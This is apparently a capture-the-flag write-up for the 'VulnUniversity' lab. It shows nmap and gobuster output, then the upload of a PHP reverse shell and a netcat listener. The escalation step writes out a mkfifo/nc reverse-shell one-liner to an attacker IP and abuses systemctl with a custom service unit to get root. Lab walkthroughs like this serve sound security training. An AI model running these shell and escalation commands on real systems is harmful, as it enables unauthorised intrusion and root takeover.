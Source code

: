 # VulnUniversity 
## Reconnaissance
###### IP address : 10.10.28.18
---

## Scanning & Enumeration
* #### nmap scan
``` 
    nmap -sC -sV 10.10.28.18
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-27 09:45 +01
Nmap scan report for 10.10.28.18
Host is up (0.14s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-03-27T04:46:02-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-27T08:46:02
|_  start_date: N/A
...

```
* ### sub directory discovery
 Locating directories using GoBuster
 ```
  # gobuster dir -u http://10.10.28.18:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ```
 ```
 Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.28.18:3333/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/27 11:14:58 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
...
 ```

---
## Explotaiton
* #### exploiting file inclusion vulnerability
![interlude 0]( img/interlude.png "supported file extension")

---
* #### Use PHP reverse shell exploit [here](exploit/)
Listen for incomming connection on port 1337
```
nc -lvnp 1337
```
upload the reverse shell code and run the attaack
![access granted]( img/access-granted.png)
* #### Privilege Escalation
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.18.201 1234 >/tmp/f" > /tmp/shell.sh
```

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
I'm root
!["root owned"](img/root-owned.png "root owned")
## Maintainning Access


---
## Cleaning

---